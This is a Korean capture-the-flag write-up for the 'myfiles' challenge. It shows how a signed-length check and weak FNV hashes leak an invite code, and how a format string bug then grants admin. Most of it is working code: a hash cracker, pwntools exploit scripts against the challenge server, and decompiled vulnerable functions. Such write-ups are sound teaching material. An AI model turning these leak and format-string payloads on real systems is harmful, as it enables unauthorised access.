

# myfiles



view_file 함수의 filename을 출력하는 로직에서 FSB가 발생하는것을 찾을 수 있었으나 이를 위해선
고유한 랜덤 문자열 invite code를 알아내야했다.

FSB exploit code는 neko hat님이 작성해주셨고 나는 invite code leak을 맡았다.


어떠한 자격증명 없이 사용자가 이용 가능한 함수은 `listUser`, `listFiles`, `uploadFile`이 있다.

이 중 사용자의 입력으로 복잡한 연산을 하는 함수는 `uploadFile`이 유일하기에 `uploadFile`이 유일한 attack surface로 보인다.


`uploadFile`은 사용자로부터 zip 파일을 `hexstring`으로 입력받아 정보들을 추출하고 이를 사용자가 지정한 사용자에게 저장하는 함수이다.
이렇게 저장된 정보들은 앞에서 언급한 `listFiles`에서 확인 가능하다.

파일로부터 정보들을 추출하는 함수인 `readZipInfo`를 더 자세히 살펴봐야겠다.


`readZipInfo` 함수는 인자로 받은 zip 파일 데이터로부터 필요한 정보들을 구해 인자로 받은  zip_info 구조체에 저장한다.

저장되는 값들 중 `FileName`과 `hash`가 leak에 이용할 수 있어보인다.


hash값은 hash 함수에 포인터 연산을 통해 계산한 `fileName`과 zip 파일 데이터의 `CompressedSize`값을 전달하여 생성한다.


hash 함수는 해쉬화할 데이터와 그 데이터의 길이를 전달받아 해쉬를 생성하는 함수이다. 
이때 사용되는 fnv 알고리즘은 해쉬의 평문 8자리까지 역산, 그 이상은 역산+브루트포싱으로 비교적 빠르게 평문을 구할 수 있는 알고리즘이기에 만일 인자들을 조작할 수 있다면 짧은 시간안에 역산 가능한 해쉬의 형태로 원하는 데이터를 leak할 수 있다.


hash 함수에 전달되는 데이터 `fileName`은 `fileNamePtr + fileNameLen + 4`로 계산된다.

이때 `fileNameLen`은 signed short으로 형변환되어 음수값으로 존재할 수 있다.
`fileName`은 메모리 속 존재하는 invite code보다 높은 주소에 위치하기에 `fileNameLen`을 적절한 음수값으로 조작한다면 invite code를 hash 함수에 인수로 전달할 수 있다.


위 코드는 signed int `fileNameLen` 값에 대한 유일한 검증 코드이다.

zip 파일 데이터의 `fileNameLen` 필드에서 4바이트를 읽은 후 이를 signed short로 형변환한 값과 같은지 비교한다. 


zip 파일 구조에서 `fileNameLen`은 unsigned short이기에 `fileNameLen`만 음수로 조작한다면 위 검증을 통과하지 못하지만 그 뒤의 `ExtraFieldLen`까지 조작하면 통과 가능하다.


hash 함수에서 hash화할 데이터의 길이로 쓰이는 `CompressedSize`는 위 코드가 유일한 검증이기에 빠르게 평문을 구할 수 있을만한 9 이상의 적당한 길이를 전달해주면 된다.

```python
#include <iostream>
#include <fmt/format.h>
#include "crack.hpp"

void solve(char* hash, char* len_str) {
    using FNV_t = FNVUtilStatic<>;
    using CrackUtils_t = CrackUtils<>;

    string charset = "abcdefghijklmnopqrstuvwxyz-";

    auto crack = CrackUtils_t(charset);

    string result;

    constexpr int BRUTE_CHARS = 3;

    uint64_t hashed = strtoull(hash, NULL, 16);
    int len = atoi(len_str);
    
    printf("Trying to crack: %p\n", hashed);
    if (crack.try_crack_single(result, hashed, len, BRUTE_CHARS)) {
        printf("Found! %s\n", result.c_str());
    } else {
        printf("Failed ):\n");
    }

    printf("\n");
}

int main(int argc, char** argv) {
    solve(argv[1], argv[2]);

    return 0;
}
```

[https://github.com/Nico-Posada/fnv-hash-cracking/tree/main](https://github.com/Nico-Posada/fnv-hash-cracking/tree/main)

해쉬 크랙은 위 라이브러리를 사용하여 진행했다.

```python

from pwn import *

context.arch = 'amd64'
context.terminal = [
    'tmux',
    'new-window',
    '-n', 'DEBUG-exploit'
]

p = remote("myfiles.chal.irisc.tf", 10001)

def upload_file(userid, pay):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'file to? ', str(userid).encode())
    p.sendlineafter(b'file\n', pay.encode())

def list_files(userid):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'user id? ', str(userid).encode())

def gen_zip_data(CompressedSize, FileNameLength):
    zip_data = b'PK\x03\x04\n\x00\x00\x00\x00\x00\xfc\x85#Z\x05g\xa8\x04'
    zip_data += p32(CompressedSize)
    zip_data += p32(0x9b00)
    zip_data += p32(FileNameLength)
    return zip_data

def crack(fid, offset, size):
    fileNameLen = 0xfffffe0a+offset
    compressedSize = size

    payload = gen_zip_data(compressedSize, fileNameLen)

    upload_file(15, payload.hex())
    list_files(15)

    p.recvuntil(b"[FID="+str(fid).encode()+b"]  "+str(compressedSize).encode()+b" ")
    hash = p.recv(16).decode()

    log.info("Cracking Hash...")
    result = os.popen("./crack "+str(hash)+' '+str(compressedSize)).read()
    if "Found" in result:
        log.success("Hash Cracking Success")
        pt = result[result.index("Found")+7:-2]
        return pt
    
    else:
        log.failure("Hash Cracking Failure")
        exit()

if __name__ == "__main__":
  
    pt = ""
    pt += crack(1, 0, 11)
    pt += crack(2, 9-516, 11)[2:]
    log.success("Invite Code : " + pt)

```

```c
unsigned __int64 viewFile()
{
  __int64 v0; // rax
  unsigned int v2; // [rsp+8h] [rbp-248h] BYREF
  int v3; // [rsp+Ch] [rbp-244h]
  __int64 v4; // [rsp+10h] [rbp-240h]
  __int64 v5; // [rsp+18h] [rbp-238h]
  __int64 v6; // [rsp+20h] [rbp-230h] BYREF
  unsigned int v7; // [rsp+28h] [rbp-228h]
  int v8; // [rsp+38h] [rbp-218h]
  char format[520]; // [rsp+40h] [rbp-210h] BYREF
  unsigned __int64 v10; // [rsp+248h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  v4 = askUserAndPass();
  if ( v4 )
  {
    printf("Which file id do you want to contents of? ");
    if ( (unsigned int)__isoc99_scanf("%d", &v2) == 1 && v2 <= 0xFF && *(_DWORD *)(v4 + 516LL * (int)v2 + 24) != -1 )
    {
      v0 = 516LL * (int)v2 + 16 + v4;
      v5 = v0 + 8;
      if ( (unsigned __int8)readZipInfo((__int64)&v6, (zip_header *)(v0 + 12), *(_DWORD *)(v0 + 8)) != 1 )
      {
        puts("Invalid zip");
      }
      else
      {
        v3 = v7;
        if ( v7 > 0x1FE )
          v3 = 511;
        memcpy(format, (const void *)(v8 + v5 + 4), v3);
        format[v3] = 0;
        printf(format);
      }
    }
    else
    {
      puts("Bad file id");
    }
  }
  return __readfsqword(0x28u) ^ v10;
}
```

`viewFile`에 fsb가 존재한다. 따라서, user생성 후, 해당 user의 admin flag를 1로 세팅하고 get flag를 하면 문제는 해결 된다.

```python
from pwn import *
import io
import zipfile

context.log_level = 'debug'

def create_zip_bytes(file_contents):
    zip_buffer = io.BytesIO()

    with zipfile.ZipFile(zip_buffer, 'w', zipfile.ZIP_STORED) as zip_file:
        for file_name, content in file_contents.items():
            zip_file.writestr(file_name, content)

    zip_bytes = zip_buffer.getvalue()
    zip_buffer.close()

    return zip_bytes

# invite_code = 'terrible-red-busses'
invite_code = 'yelling-pixel-corals'

# p = process('./chal')
p = remote('myfiles.chal.irisc.tf', 10001)

def create_user(username, passwd):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Invite code? ', invite_code.encode())
    p.sendlineafter(b'Username?', username.encode())
    p.sendlineafter(b'Password?', passwd.encode())

def view_file(userid, passwd, fileid):
    p.sendlineafter(b'> ', b'5')
    p.sendlineafter(b'User id? ', str(userid).encode())
    p.sendlineafter(b'Password? ', passwd.encode())
    p.sendlineafter(b'contents of?', str(fileid).encode())

def upload_file(userid, pay):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'file to? ', str(userid).encode())
    p.sendlineafter(b'file\n', pay)

create_user('neko', 'neko')

pays = {
    'pay1': 'leak: %8$p\n',
}

pay = create_zip_bytes(pays)

pay = pay.hex()

upload_file(0, pay)

view_file(0, 'neko', 0)
p.recvuntil(b'leak: ')
fileUsers = int(p.recvline().decode(), 16)
log.critical(f"fileUsers: {hex(fileUsers)}")
pie_base = fileUsers-0x5040
log.critical(f"pie_base: {hex(pie_base)}")

neko_admin = fileUsers + 0x10

pays = {
    'pay2': b'%1c%15$n' + p64(neko_admin),
}

pay = create_zip_bytes(pays)
pay = pay.hex()
upload_file(0, pay)

view_file(0, 'neko', 1)

p.sendlineafter(b'> ', b'6')
p.sendlineafter(b'User id? ', b'0')
p.sendlineafter(b'Password? ', b'neko')

p.interactive()
```